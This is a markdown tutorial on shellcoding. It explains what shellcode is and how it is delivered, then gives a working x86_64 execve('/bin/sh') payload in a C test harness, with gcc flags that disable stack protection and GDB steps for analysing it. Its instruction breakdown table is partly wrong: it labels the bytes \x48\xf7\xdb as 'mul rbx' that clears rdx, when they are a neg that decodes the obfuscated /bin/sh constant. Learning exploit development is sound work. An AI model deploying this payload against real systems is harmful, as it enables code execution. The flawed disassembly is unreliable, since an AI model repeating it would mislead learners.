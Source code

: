 # Shellcoding Notes

## **What is Shellcode?**
Shellcode is machine code designed to perform a specific task when executed. It is used in exploits to gain control over a system. Some common shellcode functionalities include:

- Spawning a local shell.
- Binding to a port and spawning a shell.
- Creating a new user account.

Shellcode is executed directly by the CPU and does not require further assembling, linking, or separate compiling.

---

## **How is Shellcode Delivered?**

Shellcode is usually delivered as part of an exploit. Important factors include:

- **Size Considerations:** A smaller shellcode is often better for exploitability.
- **Bad Characters:** Null bytes (`0x00`) and other special characters can break shellcode execution.
- **Execution Methods:**
  - Injected into an executable and executed as a new thread.
  - Overwriting existing executable functionality.

---

## **Shellcode Resources**
- [Shell-Storm](http://www.shell-storm.org/)
- [Exploit-DB](http://exploit-db.com)
- [Project Shellcode](http://www.projectshellcode.com/)

---

## **Analyzing Shellcode Using GDB**

The following shellcode spawns a shell (`/bin/sh`) using the `execve` system call in x86_64 assembly:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff"
"\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("Shellcode Length:  %d\n", (int)strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

### **Step-by-Step Execution in GDB**
1. **Compile the program without stack protection:**
   ```sh
   gcc -z execstack -fno-stack-protector shellcode.c -o shellcode
   ```

2. **Run GDB and disassemble the shellcode:**
   ```sh
   gdb -q ./shellcode
   (gdb) disassemble main
   ```

3. **Set a breakpoint at shellcode execution:**
   ```sh
   (gdb) break *ret
   (gdb) run
   ```

4. **Inspect the registers and shellcode execution:**
   ```sh
   (gdb) info registers
   (gdb) x/20xb code
   ```

### **Shellcode Breakdown:**
| Instruction | Opcode | Description |
|------------|--------|-------------|
| `xor eax, eax` | `\x31\xc0` | Clears `eax` (sets to 0) |
| `mov rbx, 0xff978cd091969dd1` | `\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff` | Moves `/bin/sh` string into `rbx` |
| `mul rbx` | `\x48\xf7\xdb` | Clears `rdx` (sets to 0) |
| `push rbx` | `\x53` | Push `/bin/sh` onto stack |
| `push rsp` | `\x54` | Push address of `/bin/sh` onto stack |
| `pop rdi` | `\x5f` | Set `rdi` to point to `/bin/sh` |
| `cdq` | `\x99` | Clears `rdx` |
| `push rdx` | `\x52` | Push NULL byte (terminates `/bin/sh` string) |
| `push rdi` | `\x57` | Push `/bin/sh` address again |
| `push rsp` | `\x54` | Push pointer to `argv[]` |
| `pop rsi` | `\x5e` | Set `rsi` to pointer of `argv[]` |
| `mov al, 59` | `\xb0\x3b` | Set `eax` to syscall number 59 (`execve`) |
| `syscall` | `\x0f\x05` | Execute the syscall |

### **Final Execution Output:**
Once the shellcode is executed successfully, a new shell (`/bin/sh`) should be spawned.

---

## **Conclusion**
- Shellcode is an essential part of exploit development.
- It should be small, free of bad characters, and properly tested in a debugger like GDB.
- Understanding assembly instructions and register usage is crucial for shellcoding.

